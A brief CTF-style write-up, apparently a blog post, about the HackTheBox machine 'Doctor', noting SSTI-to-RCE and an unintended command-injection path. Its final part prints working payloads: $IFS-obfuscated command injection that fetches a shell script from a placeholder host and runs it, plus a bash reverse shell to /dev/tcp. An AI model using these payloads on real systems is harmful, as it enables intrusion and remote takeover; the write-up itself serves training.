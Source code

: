 ```yaml
---
layout: post
category: writeup
---
```



- doctor is an easy box from HTB
- vulnerable SSTI to RCE
- outdated splunk forwarder
- unintended RCE in content field




[![Doctor](https://img.youtube.com/vi/uxbwCMNQ2WA/0.jpg)](https://www.youtube.com/watch?v=uxbwCMNQ2WA "Doctor Walkthrough")


- as far as the unintended path since i don't complete it i will explain it here:

first you will need to curl in a bash  payload and save to `/var/www/html`. next you will need to run it, so the payloads should look something like this:


```
# first payload
http://IP/$('curl'$IFS'http://IP/shell.sh'$IFS'-o'$IFS'/var/www/html/shell.sh')

# second payload

http://ip/$('bash'$IFS'/var/www/html/shell.sh')

# contents of shell.sh:

bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```

best, gerbsec